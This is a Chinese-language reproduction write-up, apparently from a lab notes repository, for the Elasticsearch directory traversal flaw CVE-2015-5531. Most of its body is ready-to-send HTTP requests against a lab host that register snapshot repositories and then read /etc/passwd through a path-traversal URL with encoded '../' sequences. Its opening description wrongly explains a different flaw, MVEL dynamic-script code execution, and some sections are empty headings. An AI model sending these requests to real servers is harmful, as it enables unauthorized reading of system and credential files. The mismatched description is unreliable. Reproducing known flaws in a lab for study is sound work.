





# ElasticSearch 目录穿越漏洞（CVE-2015-5531）

> 漏洞说明

Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

ElasticSearch有脚本运行的功能，能够非常方便地对查询出来的数据再加工处理。  ElasticSearch用的脚本引擎是MVEL，这个引擎没有做什么的防护，所以直接能够运行随意代码。  而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户能够直接通过http请求，运行随意代码。


> 前提条件


> 利用工具


> 漏洞复现

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在path.repo，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

访问http://192.168.40.77:9200/可以看到es成功启动



构造请求数据包添加一个仓库

```http
PUT http://192.168.40.77:9200/_snapshot/test HTTP/1.1
Host: 192.168.40.77:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

返回200，添加成功



创建快照

```htt
PUT http://192.168.40.77:9200/_snapshot/test2 HTTP/1.1
Host: 192.168.40.77:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

返回200，添加成功



读取任意文件http://192.168.40.77:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd



解码成功读取/etc/passwd


